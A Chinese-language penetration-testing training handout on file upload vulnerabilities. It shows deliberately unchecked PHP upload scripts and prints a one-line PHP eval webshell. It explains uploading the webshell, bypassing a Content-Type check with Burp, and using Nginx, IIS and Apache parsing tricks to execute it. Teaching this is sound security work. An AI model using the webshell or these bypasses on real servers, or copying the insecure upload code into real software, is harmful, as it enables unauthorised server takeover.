







# 米斯特白帽培训讲义 漏洞篇 文件上传

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0]([http://creativecommons.org/licenses/by-nc-sa/4.0](http://creativecommons.org/licenses/by-nc-sa/4.0)

我们首先看一下文件上传的流程图。



其中，浏览器通过上传页面将文件储存到服务器中。一般这些上传页面都会有限制（比如限制格式为`jpg/gif/png`等等，或者限制文件大小）。

我们所关注的这个上传页面，一旦限制了文件就可能导致我们的渗透测试失败。那么真的完全失败了吗？后面会讲到很多方法，代码本身我们突破不了，但是我们可以用这些方法来绕过限制。

漏洞页面大致分为两种，一种是不限制任何格式，随意上传，这种现在比较少了。另一种是限制`Content-type`，虽然它限制了文件类型，但我们就可以突破它。

## 任意文件上传

看一下这段代码：

```
<form action="" method="POST" ENCTYPE="multipart/form-data">
    点这里上传文件:
    <input type="file" name="userfile">
    <input type="submit" value="提交">
</form>
<?php
if(!isset($_FILES['userfile']))
    exit;
echo "<pre>";
print_r($_FILES);
echo "</pre>";
$uploaddir='upfile/';
$PreviousFile=$uploaddir.basename(@$_FILES['userfile']['name']);
if(move_uploaded_file(@$_FILES['userfile']['tmp_name'], $PreviousFile))
    echo '上传成功！';
else
    echo '上传失败！';
```

首先是一个文件上传表单，我们可以看到表单中多了一个`enctype`属性，是因为文件上传的格式和之前不一样，不加这个就无法识别了。

然后会检查是否接受到了上传文件，没有接收到就直接结束。之后会打印出文件信息，便于我们调试。之后将上传文件的名称和保存上传文件的目录拼接，将文件从临时目录移动到这个目录。最后输出成功或失败信息。

将其保存为`upfile.php`后，我们首先访问它并尝试上传一个文件。我们把一句话`<?php @eval($_POST['a']) ?>`写入`1.php`，然后把它上传到服务器。


于是我们看到上传成功。



我们可以看到打印出的文件信息，其中：

*   `userfile`是这个文件在数组中的索引，也是表单中的文件上传输入框的名称。
*   `name`是这个文件的文件名。
*   `type`是这个文件的类型。
*   `tmp_name`是这个文件的临时完整路径。
*   `error`是错误代码。
*   `size`是文件大小。

之后，尝试直接访问所上传的文件，发现访问成功。



然后我们就可以拿菜刀连接了。



我们可以看到连接成功，那么我们就成功地 GetShell 了。

## 存在限制

如果`upfile.php`的内容变成这样：

```
<form action="" method="POST" enctype="multipart/form-data">
    点这里上传文件:
    <input type="file" name="userfile">
    <input type="submit" value="提交">
</form>
<?php
if(!isset($_FILES['userfile']))
    exit;
echo "<pre>";
print_r($_FILES);
echo "</pre>";
if(@$_FILES['userfile']['type'] != "image/gif"){
        echo "对不起，我们只允许上传GIF格式的图片!!";
        exit;
}
$uploaddir='upfile/';
$PreviousFile=$uploaddir.basename(@$_FILES['userfile']['name']);
if(move_uploaded_file(@$_FILES['userfile']['tmp_name'], $PreviousFile))
    echo "上传成功！";
else
    echo "上传失败！";
```

这段代码多出来的东西就是，它首先验证了文件类型，如果是`gif`则放过，不是则拦截。那么根据`multipart`编码类型，`type`这个东西在浏览器生成之后，是可以改的。我们可以通过 Burp 拦截并修改这个值。

首先我们打开 Burp，配置代理，访问`upfile.php`。之后开启拦截模式并上传一个文件：

我们拦截之后，找到`Content-Type`，发现他是`application/oct-stream`，我们把它改成`image/gif`，之后放行（可能需要多次，在我这里是这样）。


然后我们可以看到上传成功，上传目录中出现了我们上传的文件。





## Nginx 解析漏洞

如果服务器是 Nginx，我们可以直接上传图片格式，利用解析漏洞拿 Webshell。漏洞成因是，由于 Nginx 部分版本程序自身的漏洞，导致可以解析并执行非脚本文件。

假设存在漏洞的站点上有一张图片，URL 地址为：

```
www.xxx.com/logo.jpg
```

我们正常访问时，Nginx 会把它当做非脚本，直接读取并传给客户端。但是如果我们这样访问：

```
www.xxx.com/logo.jpg/a.php
```

他就会把`logo.jpg`当做 PHP 文件来执行。或者是

```
www.xxx.com/logo.jpg%00.php
```

也会导致图片执行，这个是 7 月中旬爆出的解析漏洞。

要利用这个漏洞，我们可以随便找一张图片，在里面插入一句话：


我们将其上传之后，访问图片的 URL，确认上传成功。



然后我们利用该解析漏洞构造 URL，发现也能够成功访问，也能拿菜刀来连接。


## IIS 解析漏洞

IIS 5.x/6.0 主要存在两个解析漏洞，第一个是目录解析：

```
/a.asp/b.jpg
```

其中`a.asp`是目录，`b.jpg`是真实存在的文件，那么`b.jpg`会当做`asp`文件来执行。这个漏洞需要我们能够创建目录。

第二个是文件解析，也就是分号截断：

```
a.asp;.jpg
```

这个文件的扩展名在上传时是`jpg`，但是上传之后，IIS 会把它当做`asp`文件来解析。

另外，在IIS 中，可执行脚本的扩展名除了`asp`之外，还有`asa`、`cdx`、`cer`。许多网站往往就过滤不全，一定要重视！！

## Apache 解析漏洞

Apache 的解析漏洞比较有意思，它从右到左解析扩展名，如果碰到不认识的扩展名，则继续往下解析。比如我们上传`a.php.x1.x2.x3`，它按照`x3 x2 x1 php`的顺序解析扩展名，但是他不认识后面三个，所以只能将其解析为`php`。但在文件上传时，文件的扩展名一直是`x3`，所以可以绕过一些校验。

## 参考

*   [文件解析漏洞总结](http://blog.csdn.net/wizardforcel/article/details/50695896)